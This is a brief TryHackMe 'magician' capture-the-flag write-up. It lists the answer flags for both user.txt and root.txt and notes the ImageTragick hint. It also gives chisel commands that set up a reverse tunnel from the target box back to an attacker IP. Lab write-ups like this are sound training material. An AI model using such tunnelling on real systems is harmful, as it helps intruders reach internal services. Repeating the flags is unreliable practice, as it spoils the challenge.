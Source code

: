 # TryHackMe magician

> Saikat Karmakar | Mar 8:2021

-------------------------------------------------------------------------------

# Task 1 
1. user.txt
```
THM{simsalabim_hex_hex}
```
2. root.txt
```
THM{magic_may_make_many_men_mad}
```

--
-----------
***Notes***
-----------
link in ftp server = https://imagetragick.com/

cat /etc/crontab
crontab -l
read the hint 
use chisel

create a server with reverse tunnelling
```
/opt/chisel server --reverse --port 4444
```
on the target box
```
./chisel client 10.4.23.120:4444 R:4444:127.0.0.1:6666
```